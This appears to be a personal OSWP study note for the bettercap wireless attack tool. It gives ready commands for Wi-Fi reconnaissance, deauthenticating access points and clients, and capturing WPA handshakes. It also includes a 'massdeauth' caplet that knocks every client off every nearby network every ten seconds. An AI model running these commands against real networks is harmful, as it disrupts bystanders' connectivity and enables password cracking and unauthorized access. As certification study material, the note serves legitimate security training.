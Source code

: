 ```yaml
---
{"dg-publish":true,"permalink":"/oswp/9-bettercap/","updated":"2024-01-05T11:37:24.507+01:00"}
---
```


----------------------
	Swiss Army Knife of Network Hacking

## Getting started
Start bettercap:
```
sudo bettercap -iface wlan0
```
Clear screen:
	clear
Exit bettercap:
	exit
--------------
## Modules vs. commands
- Six modules:
	- Bluetooth LE
	- HID on 2.4GHz
	- Ethernet
	- Wi-Fi
	- Ticker
-------------
## Commands:
### Scanning & discovery
Start/stop scanning for APs, clients & handshakes:
```
wifi.recon <on/off>
```
Scan for specific channels:
```
wifi.recon.channel 6,11
```
Clear specified channels:
```
wifi.recon.channel clear
```
Enumerate connected clients:
```
wifi.recon c6:2d:56:2a:53:f8
```
Exit client view:
```
wifi.recon clear
```
Display discovered wireless stations:
```
wifi.show
```
Clear discovered APs:
```
wifi.clear
```
Change how long for client to be marked as disconnected (default 300/five min):
```
set wifi.sta.ttl 100
```
Enable/disable 802.11 checksum validations:
```
set wifi.skip-broken <true/false>
```
### Filtering & sorting
Sort discovered stations:
```
set wifi.show.sort <column-name> <asc/desc>
```
Filter discovered stations:
```
set wifi.show.filter "WPA2"
```
Clear filter:
```
set wifi.show.filter ""
```
Enumerate clients connected to AP:
```
wifi.recon c6:2d:56:2a:53:f8
wifi.show
```
Filter discovered stations for signal strength (default -200):
```
set wifi.rssi.min -49
```
Limit number of APs displayed (clear with 0)
```
set wifi.show.limit 10
```
Show manufacturers:
```
set wifi.show.manufacturer true
```
### Tickers
Enable/disable ticker:
```
ticker <on/off>
```
Set ticker commands:
```
set ticker.commands "clear; wifi.show"
```
Run ticker on start:
```
sudo bettercap -iface wlan0 -eval "set ticker.commands 'clear; wifi.show'; wifi.recon on; ticker on"
```
Set ticker time to execution (default 1 sec):
```
set ticker.period 2
```
### Deauth & handshakes
Deauthenticating AP:
```
wifi.deauth c6:2d:56:2a:53:f8
```
Deauthenticating client:
```
wifi.deauth ac:22:0b:28:fd:22
```
Getting handshake:
```
get wifi.handshakes.file
```
Setting handshake save file:
```
set wifi.handshakes.file "/home/kali/handshakes/"
set wifi.handshakes.aggregate false
```
Adding devices to skip-list:
```
set wifi.deauth.skip ac:22:0b:28:fd:22,c6:2d:56:2a:53:f8
```
Skipping previously captured handshakes:
```
set wifi.deauth.acquired <true/false>
```
Deauthenticating open networks:
```
set wifi.dauth.open <true/false>
```
Hiding deauth-messages from terminal:
```
set wifi.deauth.silent <true/false>
```

------------------

## Caplets
Files that allows to run a series of commands in bettercap using .cap extension

Caplet directory: 
 `/usr/share/bettercap/caplets/`

Example caplet "massdeauth.cap":
```
set $ {by}{fw}{env.iface.name}{reset} {bold}» {reset}

# every 10 seconds deauth every client from every ap
set ticker.period 10
set ticker.commands clear; wifi.deauth ff:ff:ff:ff:ff:ff

# uncomment to only hop on these channels:
# wifi.recon.channel 1,2,3

wifi.recon on
ticker on
events.clear
clear
```

Example caplet "deauth_corp.cap":
```
set $ {br}{fw}{net.received.human} - {env.iface.name}{reset} » {reset}

set ticker.period 10
set ticker.commands clear; wifi.show; events.show; wifi.deauth c6:2d:56:2a:53:f8

events.ignore wifi.ap.new
events.ignore wifi.client.probe
events.ignore wifi.client.new

wifi.recon on
ticker on
events.clear
clear
```

Starting caplet:
```
sudo bettercap -iface wlan0 -caplet <caplet-file>
```

Starting caplet from session:
```
include <caplet-file>
```

---------

## Bettercap Web Interface

Set up server firewall rules:
```
sudo nft add table inet filter
sudo nft add chain inet filter INPUT { type filter hook input priority 0\; policy drop\; }
sudo nft add rule inet filter INPUT ip saddr <your-ip> tcp dport 443 accept
sudo nft add rule inet filter INPUT ip saddr <your-ip> tcp dport 8083 accept
```

Configure username and password:
```
sudo nano /usr/share/bettercap/caplets/https-ui.cap
#Edit lines 16 and 17
```

Start web UI:
```
sudo bettercap -iface wlan0 -caplet https-ui
```

Access:
- Accept self-signed certs on main page and :8083/api